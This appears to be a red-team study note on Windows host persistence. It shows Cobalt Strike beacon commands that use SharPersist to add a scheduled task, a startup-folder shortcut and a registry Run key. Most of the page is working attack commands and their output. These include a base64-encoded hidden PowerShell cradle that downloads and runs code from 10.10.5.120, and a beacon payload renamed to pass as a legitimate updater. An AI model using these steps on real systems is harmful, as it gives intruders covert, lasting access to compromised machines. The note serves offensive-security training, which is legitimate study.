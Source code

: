 ```yaml
---
creation date: September 22nd 2022
last modified date: September 22nd 2022
aliases: []
tags: #📕
---
```


Primary Categories: { Add link(s) [[]] back to related PRIMARY categories }
Secondary Categories:  { Add link(s) [[]] back to related SECONDARY categories }
Links: {Add link(s) [[]] to related terms}
Search Tag: #📕  

# [[Host Persistence]]  
___

## Description:  
Persistence is a method of regaining or maintaining access to a compromised machine, without having to exploit the initial compromise steps all over again. Workstations are volatile since users tend to logout or reboot them frequently.


### SharPersist

 [SharPersist](https://github.com/fireeye/SharPersist) is a Windows persistence toolkit written by FireEye. It's written in C#, so can be executed via `execute-assembly`
 

### Task Scheduler

^a718ec

Encoding the payload

In PowerShell:
```
PS C:\> $str = 'IEX ((new-object net.webclient).downloadstring("http://10.10.5.120/a"))'
PS C:\> [System.Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($str))
SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgA1AC4AMQAyADAALwBhACIAKQApAA==
```
In Linux:
```
root@kali:~# str='IEX ((new-object net.webclient).downloadstring("http://10.10.5.120/a"))'
root@kali:~# echo -en $str | iconv -t UTF-16LE | base64 -w 0
SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgA1AC4AMQAyADAALwBhACIAKQApAA==
```

Schedule the task in the CobaltStike beacon:
```
beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Debug\SharPersist.exe -t schtask -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgA1AC4AMQAyADAALwBhACIAKQApAA==" -n "Updater" -m add -o hourly

[*] INFO: Adding scheduled task persistence
[*] INFO: Command: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
[*] INFO: Command Args: -nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgA1AC4AMQAyADAALwBhACIAKQApAA==
[*] INFO: Scheduled Task Name: Updater
[*] INFO: Option: hourly
[+] SUCCESS: Scheduled task added

```

-   `-t` is the desired persistence technique.
-   `-c` is the command to execute.
-   `-a` are any arguments for that command.
-   `-n` is the name of the task.
-   `-m` is to add the task (you can also `remove`, `check` and `list`).
-   `-o` is the task frequency.



### Startup Folder

^007423

Applications, files and shortcuts within a user's startup folder are launched automatically when they first log in. It's commonly used to bootstrap the user's home environment (set wallpapers, shortcut's etc).

```
beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Debug\SharPersist.exe -t startupfolder -c "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -a "-nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgA1AC4AMQAyADAALwBhACIAKQApAA==" -f "UserEnvSetup" -m add

[*] INFO: Adding startup folder persistence
[*] INFO: Command: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
[*] INFO: Command Args: -nop -w hidden -enc SQBFAFgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACIAaAB0AHQAcAA6AC8ALwAxADAALgAxADAALgA1AC4AMQAyADAALwBhACIAKQApAA==
[*] INFO: File Name: UserEnvSetup
[+] SUCCESS: Startup folder persistence created
[*] INFO: LNK File located at: C:\Users\bfarmer\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\UserEnvSetup.lnk
[*] INFO: SHA256 Hash of LNK file: B34647F8D8B7CE28C1F0DA3FF444D9B7244C41370B88061472933B2607A169BC

```

-   `-f` is the filename to save as.

### Registry AutoRun

^a148a4

AutoRun values in HKCU and HKLM allow applications to start on boot. You commonly see these to start native and 3rd party applications such as software updaters, download assistants, driver utilities and so on.

Generate a Windows EXE payload and upload it to the target.

```
beacon> cd C:\ProgramData
beacon> upload C:\Payloads\beacon-http.exe
beacon> mv beacon-http.exe updater.exe
beacon> execute-assembly C:\Tools\SharPersist\SharPersist\bin\Debug\SharPersist.exe -t reg -c "C:\ProgramData\Updater.exe" -a "/q /n" -k "hkcurun" -v "Updater" -m add

[*] INFO: Adding registry persistence
[*] INFO: Command: C:\ProgramData\Updater.exe
[*] INFO: Command Args: /q /n
[*] INFO: Registry Key: HKCU\Software\Microsoft\Windows\CurrentVersion\Run
[*] INFO: Registry Value: Updater
[*] INFO: Option: 
[+] SUCCESS: Registry persistence added
```

-   `-k` is the registry key to modify.
-   `-v` is the name of the registry key to create.




___

## Resources:

| Hyperlink | Info |
| --------- | ---- |


Created Date: September 22nd 2022 (07:48 pm)  
Last Modified Date: <%+tp.file.last_modified_date("MMMM Do YYYY (hh:ss a)")%>
